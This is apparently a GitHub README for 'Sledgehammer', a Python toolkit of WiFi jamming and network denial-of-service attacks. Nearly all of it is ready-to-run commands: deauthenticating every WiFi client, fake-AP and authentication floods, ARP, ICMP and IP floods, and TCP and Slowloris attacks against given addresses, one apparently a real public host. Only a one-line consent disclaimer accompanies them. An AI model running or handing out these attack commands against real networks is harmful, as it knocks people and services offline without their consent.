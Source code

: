 # <span style="color:red">Please note: This respository has become staled due to relocation to GitLab. Visit https://gitlab.com/mike01/ for up-to-date versions.</span>


### General information
Sledgehammer is collection of Jammer/DoS tools for various protocols. Those include at minimum:

- WiFi (smart deauthentication, DoS via fake AP creation, DoS via authentication)
- arp
- ip
- icmp
- tcp

### Requirements
- [Python 3.x](https://www.python.org/)
- [Pypacker](https://github.com/mike01/pypacker) ('pip install pypacker' or clone and 'python setup.py install')
- [iwconfig](http://www.hpl.hp.com/personal/Jean_Tourrilhes/Linux/Tools.html) (wireless-tools)

### Installation
Just download and execute.

### Usage examples
Get general help via: python sledgehammer.py --help
Depending on attack mode parameters can vary. See mode-parameters for more info.
Default source MAC and IP address is the one of the interface given by 'iface_name'.

- WiFI DoS via smart deauthentication: Disconnect all WiFi clients

  `python sledgehammer.py --mode wifi_deauth --iface_name wlan1 --count 9999`

- WiFI DoS via smart deauthentication: Disconnect all WiFi clients except '00:11:22:33:44:55'

  `python sledgehammer.py --mode wifi_deauth --iface_name wlan1 --nobroadcast --macs_excluded 00:11:22:33:44:55 --count 9999`

- WiFi DoS via mass fake APs

  `python sledgehammer.py --mode wifi_ap --iface_name wlan1 --channels 1 --count 9999`

- WiFi DoS via mass auth

  `python sledgehammer.py --mode wifi_auth --iface_name wlan1 --mac_dst 00:11:22:33:44:55:66 --channels 4 --count 9999`

- ARP

  `python sledgehammer.py --mode arp --iface_name wlan1 --mac_dst 00:11:22:33:44:55 --ip_dst 192.168.178.1`

- ICMP

  `python sledgehammer.py --mode icmp --iface_name wlan1 --mac_dst 00:11:22:33:44:55:66 --ip_dst 192.168.178.1`

- IP

  `python sledgehammer.py --mode ip --iface_name wlan0 --mac_dst 00:11:22:33:44:55:66 --ip_dst 192.168.178.123 --count 9999`

- TCP

  `python sledgehammer.py --mode tcp --iface_name wlan1 --mac_dst 00:11:22:33:44:55:66 --ip_dst 193.99.144.80 --port_dst 443`

- Slowlory

  `python sledgehammer.py -m slowlory --ip_dst 1.2.3.4 --port_dst 80  -i wlan0`

  `python sledgehammer.py -m slowlory --ip_dst www.domain.com --port_dst 443 --ssl True -i wlan0`

### Disclaimer
Use at your own risk. Do not use without full consent of everyone involved.
